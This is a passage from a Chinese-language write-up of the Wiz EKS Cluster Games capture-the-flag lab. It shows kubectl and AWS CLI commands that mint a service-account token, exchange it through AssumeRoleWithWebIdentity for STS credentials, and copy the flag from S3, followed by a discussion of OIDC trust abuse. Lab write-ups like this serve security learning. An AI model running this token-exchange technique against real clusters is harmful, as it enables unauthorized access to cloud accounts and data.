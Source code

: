 ```bash
kubectl create token debug-sa-token --audience sts.amazonaws.com
```

接下来解决了 aws token 的问题，下一步就是模拟 IAM 权限了。

这个稍微查询一下文档基本也问题不大，就是使用 web token 拿到 STS 临时凭据了。

查询 STS 部分文档，可以发现 [action::AssumeRoleWithWebIdentity](https://docs.aws.amazon.com/STS/latest/APIReference/API_AssumeRoleWithWebIdentity.html) 明确提到 OIDC token 也可以通过这个函数进行鉴权， cli 操作如下 https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role-with-web-identity.html

构建命令：

```bash
aws sts assume-role-with-web-identity --role-arn arn:aws:iam::688655246681:role/challengeEksS3Role --role-session-name sessionABC --web-identity-token ${Token Previous Step}
```

AWS 返回 STS 后，export 成环境变量，直接拷贝出 flag

```bash
aws s3 cp s3://challenge-flag-bucket-3ff1ae2/flag /tmp/flag
```

```
wiz_eks_challenge{w0w_y0u_really_are_4n_eks_and_aws_exp1oitation_legend}
```
### Other Information

#### What's OIDC

官方给出的策略中， OIDC 的配置表明 K8S <=> AWS 之间存在 OIDC 相互的“信任”关系 ，本质上说就是可以通过 OAuth V2 拓展的手段，可以使得 AWS 中的 IAM 用户，角色，权限和 Kubernetes 集群中的用户（服务账户），权限，角色之间相互打通，从一个平台验证到另一个平台。

## Summary

云服务很大程度上都是在基于凭据的基础上进行的，云对于大部分凭据的使用方法是签名和签名算法。

AKSK、AKSK/STS 这两类凭据是云服务和云厂商服务之间交互的重要凭据。

当 AKSK 并不能如预期时获取的时候，云平台云服务之间的角色绑定失误，以及类似的 OAuth 认证信任关系滥用等等，涉及第三方角色权限的机制时 STS token 常常会发挥一些意想不到的作用。 这类是更为复杂更容易隐藏的攻击向量。

当然由于 AWS 一类云服务厂商才是实际存储和保存 IAM 以及账户信任的人，在攻击者没有适当权限的时候，几乎无法枚举对应的关系，对攻击者来说，获取这类信息存在一定的学习成本和对于目标云环境理解的成本的。其信息收集难度，还是比 linpeas linux 本地提权一把索，bloodhound 六级域控管理员要大很多的。


## 鸣谢 Thanks

**Wiz** @Wiz.io

**LoBuhi** @lobuhisec

## Finisher Banner

[eksclustergames.com/finisher/AYwUrrIK](https://eksclustergames.com/finisher/AYwUrrIK)
